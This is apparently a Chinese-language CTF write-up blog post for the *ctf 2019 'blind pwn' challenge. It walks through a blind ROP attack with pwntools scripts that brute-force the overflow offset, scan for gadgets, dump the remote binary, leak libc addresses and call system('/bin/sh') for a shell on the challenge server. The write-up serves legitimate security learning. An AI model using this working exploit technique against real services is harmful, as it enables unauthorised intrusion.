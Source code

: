 ```yaml
---
layout: post
title:  "*ctf blind pwn"
categories: ctf
tags: *ctf brop
author: ble55ing
---
```


* content
{:toc}

## *ctf blind pwn writeup

blind pwn，顾名思义，没给源文件的题目

首先看一下程序的执行情况，程序输出welcome，然后接收一个字符串，再输出Goodbye。

![](https://raw.githubusercontent.com/ble55ing/PicGo/master/first.png)

![](https://raw.githubusercontent.com/ble55ing/PicGo/master/try.png)

这题没有printf，所以应该是没有格式化字符串的，按照这种题目的情况，应该是一个很简单的程序，有一个栈溢出的漏洞。

## 一、填充偏移

第一步，构造padding，找到偏移。

```
def getbuflength():
    i = 0
    while 1:
        try:
            sh = remote('34.92.37.22', 10000)
            sh.recvuntil('Welcome to this blind pwn!\n')
            sh.send(i * 'a')
            rev = sh.recv()
            sh.close()
            if not rev.startswith('Goodbye!'):
                return i - 1
            else:
                i += 1
        except EOFError:
            sh.close()
            return i - 1
```

## 二、进入循环

第二步，找到一个能使程序进入循环的地方（main函数开始地址）

main函数开始地址的特征比较明显，就是由多个能够正常执行而且显示welcome的地方。

```
def get_main_addr(length):
    addr = 0x400000
    while 1:
        if addr %0x80==0:
            print hex(addr)
        try:
            sh = remote('34.92.37.22', 10000)
            sh.recvuntil('pwn!\n')
            payload = 'a' * length + p64(addr)
            sh.sendline(payload)
            content = sh.recv()
            print content
            sh.close()
            return addr
        except Exception:
            addr += 1
            sh.close()
```

## 三、找到输出函数

已经控制了流程，然后就需要找到方便rop的gadget，16进制程序基本都有的如下所示：

![](https://raw.githubusercontent.com/ble55ing/PicGo/master/brop_gadget.png)

```
def get_brop_gadget(length, main_addr, addr):
    try:
        sh = remote('34.92.37.22', 10000)
        sh.recvuntil('pwn!\n')
        payload = 'a' * length + p64(addr) + p64(0) * 6 + p64(
            main_addr) + p64(0) * 10
        sh.sendline(payload)
        content = sh.recv()
        sh.close()
        print content
        if not content.startswith('Welcome'):
            return False
        return True
    except Exception:
        sh.close()
        return False
        
def check_brop_gadget(length, addr):
    try:
        sh = remote('34.92.37.22', 10000)
        sh.recvuntil('pwn!\n')
        payload = 'a' * length + p64(addr) + 'a' * 8 * 10
        sh.sendline(payload)
        content = sh.recv()
        sh.close()
        return False
    except Exception:
        sh.close()
        return True


def find_brop_gadget(length, main_addr):
    addr = 0x400000
    while 1:
        if addr%0x80==1:
            print hex(addr)
        if get_brop_gadget(length, main_addr, addr):
            if check_brop_gadget(length, addr):
                return addr
        addr += 1
```

找到brop gadget之后就应该是使用rdi，根据0x400000的回显结果再去找put函数了。然而找了半天没找到。然后再不停的尝试中找到了当有两个参数输入 的时候，是可以正常获得地址的数据的，于是就使用rsi_rdi_ret的gadget来放两个参数，获得程序的信息（其实是相当于把整个程序相当于都打了出来）。打印的时候注意到是一次打出0x100大小的长度，做完证实应该是write函数（当时并不知道）。

```
def leak(length, rsi_rdi_ret, puts_plt, leak_addr, mainaddr):
    sh = remote('34.92.37.22', 10000)
    payload = 'a' * length + p64(rsi_rdi_ret) + p64(leak_addr) + p64(leak_addr)+ p64(
        puts_plt) + p64(mainaddr)
    sh.recvuntil('pwn!\n')
    sh.sendline(payload)
    try:
        data = sh.recv()
        sh.close()
        try:
            data = data[:data.index("\nWelcome")]
        except Exception:
            data = data
        if data == "":
            data = '\x00'
        return data
    except Exception:
        sh.close()
        return None


def leakfunction(length, rdi_ret, puts_plt, mainaddr):
    addr = 0x400000
    result = ""
    while addr < 0x401000:
        print hex(addr)
        data = leak(length, rdi_ret, puts_plt, addr, mainaddr)
        if data is None:
            continue
        else:
            result += data
            addr += len(data)
    with open('code', 'wb') as f:
        f.write(result)

```

然后就获得了这个程序的一部分，将code用ida使用binary格式加载，然后Edit->segment->rebase program更改加载基址，按c就能把16进制串转化为反汇编代码。然后找到打印函数的位置，可以看到它的got表位置，打印出来其中的地址是2b0结尾（然而不知道是什么函数还是没有办法）。

![](https://raw.githubusercontent.com/ble55ing/PicGo/master/write.png)

所以还是再分析分析还有啥别的函数没有，由于函数在读入字符的时候，\x00无所谓，\n才结束，所以猜测其为read函数，分析代码，找到其got表地址，为0x601028得到的其地址为。

![](https://raw.githubusercontent.com/ble55ing/PicGo/master/read1.png)

![](https://raw.githubusercontent.com/ble55ing/PicGo/master/read2.png)

![](https://raw.githubusercontent.com/ble55ing/PicGo/master/read3.png)

然后把其中的地址打出来，然后找到Libc-Search找到对应的库，然后system(“/bin/sh”)拿到shell

![](https://raw.githubusercontent.com/ble55ing/PicGo/master/final.png)

这中间还有一个小bug，Libc-Search找库的时间太长了程序都alarm结束了，所以中间还去找到了那个对应库然后再回来的

```
sh = remote('34.92.37.22', 10000)
sh.recvuntil('pwn!\n')
payload = 'a' * length + p64(rsi_rdi_ret) + p64(read_got) + p64(read_got)+ p64(puts_plt) + p64(
    mainaddr)
sh.sendline(payload)
data = sh.recvuntil('Welcome', drop=True)
print data
puts_addr = u64(data[:8].ljust(8, '\x00'))
print hex(puts_addr)
#libc = LibcSearcher('read', puts_addr)
libc_base = puts_addr - libc.symbols['read']
system_addr = libc_base + libc.symbols['system']
print system_addr
binsh_addr =libc_base +libc.search('/bin/sh').next()
#binsh_addr = libc_base + libc.dump('str_bin_sh')
payload = 'a' * length + p64(rdi_ret) + p64(binsh_addr) + p64(
    system_addr) + p64(mainaddr)
sh.sendline(payload)
sh.interactive()
```

另附解题wp的github[https://github.com/ble55ing/ctfpwn/blob/master/2019starctf/blind_pwn.py](https://github.com/ble55ing/ctfpwn/blob/master/2019starctf/blind_pwn.py)